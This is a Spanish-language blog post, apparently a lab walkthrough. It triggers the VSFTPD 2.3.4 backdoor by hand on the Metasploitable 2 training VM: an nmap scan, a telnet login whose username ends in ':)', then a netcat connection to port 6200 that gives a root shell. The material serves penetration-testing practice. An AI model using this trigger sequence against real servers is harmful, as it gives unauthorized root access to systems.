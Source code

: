 ```yaml
---
layout: post
title: Metasploitable 2, Atacando manualmente el puerto 21 VSFTPD 2.3.4
category: Hacking
comments: true
description: En el articulo anterior atacamos esta vulnerabilidad con ayuda de Metasploit, pero esta vez lo haremos manualmente, ya que al ser un backdoor, fue una vulnerabilidad creada a posta por alguien con malas intenciones, en este post veremos como ejecutar un backdoor de la manera original sin necesidad de usar Metasploit.
tags:       
    - hacker
    - metasploitable2
    - metasploit
---
```


En el articulo anterior atacamos esta vulnerabilidad con ayuda de Metasploit, pero esta vez lo haremos manualmente, ya que al ser un backdoor, fue una vulnerabilidad creada a posta por alguien con malas intenciones, en este post veremos como ejecutar un backdoor de la manera original sin necesidad de usar Metasploit.

Para descargarte [Metasploitable 2](https://sourceforge.net/projects/metasploitable/files/Metasploitable2/){:target="_blank"}

Recuerda que puedes ver el articulo de como usamos esta vulnerabilidad manual con metasploit [aqui](http://localhost:4000/hacking/Metasploitable2-vsftpd)

## Puertos abiertos antes de empezar

Antes de empezar es recomendable que veamos cuales son los puertos abiertos de nuestra maquina objetivo, ya vereis que despues de abrir el backdoor habra otro puerto más abierto.

{% highlight sql linenos %}

Nmap scan report for 192.168.1.41
Host is up (0.00037s latency).
Not shown: 65501 closed ports
PORT      STATE    SERVICE
21/tcp    open     ftp
22/tcp    open     ssh
23/tcp    open     telnet
25/tcp    open     smtp
53/tcp    open     domain
80/tcp    open     http
111/tcp   open     rpcbind
139/tcp   open     netbios-ssn
445/tcp   open     microsoft-ds
512/tcp   open     exec
513/tcp   open     login
514/tcp   open     shell
1099/tcp  open     rmiregistry
1524/tcp  open     ingreslock
2049/tcp  open     nfs
2121/tcp  open     ccproxy-ftp
3306/tcp  open     mysql
3632/tcp  open     distccd
4239/tcp  filtered vrml-multi-use
5432/tcp  open     postgresql
5900/tcp  open     vnc
6000/tcp  open     X11
6667/tcp  open     irc
6697/tcp  open     ircs-u
8009/tcp  open     ajp13
8180/tcp  open     unknown
8787/tcp  open     msgsrvr
27242/tcp filtered unknown
34652/tcp open     unknown
35474/tcp filtered unknown
41271/tcp open     unknown
41542/tcp open     unknown
42726/tcp open     unknown
54399/tcp filtered unknown
MAC Address: 00:0C:29:D3:5F:CD (VMware)

Nmap done: 1 IP address (1 host up) scanned in 185.82 seconds

{% endhighlight %}


## Usando el backdoor

Para usar el backdoor nos conectamos al ftp desde telnet, en donde pasaremos un USER que tiene que acabar con :) y un PASS cualquiera, luego tenemos que salir, para ello pulsamos CONTROL+5 y salimos de telnet.

{% highlight sql linenos %}

telnet 192.168.1.41 21
USER hola:)
PASS nolose

(pulsamos control +5)

quit.

{% endhighlight %}


Y si ahora ejecutaramos otra vez el nmap veriamos que tenemos un nuevo puerto abierto en el 6200.

{% highlight sql linenos %}

Nmap scan report for 192.168.1.41
Host is up (0.00036s latency).
Not shown: 65504 closed ports
PORT      STATE SERVICE
21/tcp    open  ftp
22/tcp    open  ssh
23/tcp    open  telnet
25/tcp    open  smtp
53/tcp    open  domain
80/tcp    open  http
111/tcp   open  rpcbind
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
512/tcp   open  exec
513/tcp   open  login
514/tcp   open  shell
1099/tcp  open  rmiregistry
1524/tcp  open  ingreslock
2049/tcp  open  nfs
2121/tcp  open  ccproxy-ftp
3306/tcp  open  mysql
3632/tcp  open  distccd
5432/tcp  open  postgresql
5900/tcp  open  vnc
6000/tcp  open  X11
6200/tcp  open  lm-x
6667/tcp  open  irc
6697/tcp  open  ircs-u
8009/tcp  open  ajp13
8180/tcp  open  unknown
8787/tcp  open  msgsrvr
34652/tcp open  unknown
41271/tcp open  unknown
41542/tcp open  unknown
42726/tcp open  unknown
MAC Address: 00:0C:29:D3:5F:CD (VMware)

Nmap done: 1 IP address (1 host up) scanned in 3.54 seconds

{% endhighlight %}

Ahora seria tan facil como abrir un netcat o un telnet al puerto 6200... y ala.. ya somos root!

{% highlight sql linenos %}

nc 192.168.1.41 6200

{% endhighlight %}

<figure>
<img alt="Acceso root a la maquina objetivo después de usar el backdoor" class="img img-responsive" src="/resources/images/exploit-vsftpd-manual.png"/>
<figcaption>
Acceso root a la maquina objetivo después de usar el backdoor
</figcaption>
</figure>

